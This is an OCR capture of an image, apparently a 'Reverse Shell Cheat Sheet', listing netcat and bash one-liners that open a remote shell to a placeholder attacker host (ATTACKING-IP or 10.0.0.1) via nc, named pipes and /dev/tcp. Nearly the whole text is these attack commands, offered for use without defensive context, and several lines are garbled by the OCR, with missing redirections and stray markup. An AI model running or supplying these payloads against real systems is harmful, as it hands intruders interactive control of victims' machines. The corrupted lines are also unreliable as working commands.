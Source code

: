 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> **nc -e /bin/sh 10.0.0.1 1234**

> **/bin/sh | nc ATTACKING-IP 80**

> **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> **exec /bin/bash 0&0 2>&0

> **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

> **exec 5<>/dev/tcp/ATTACKING-IP/80
>
> cat <&5 | while read line; do $line 2>&5 >&5; done
>
> **or**
>
> **while read line 0<&5; do $line 2>&5 >&5; done

> **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

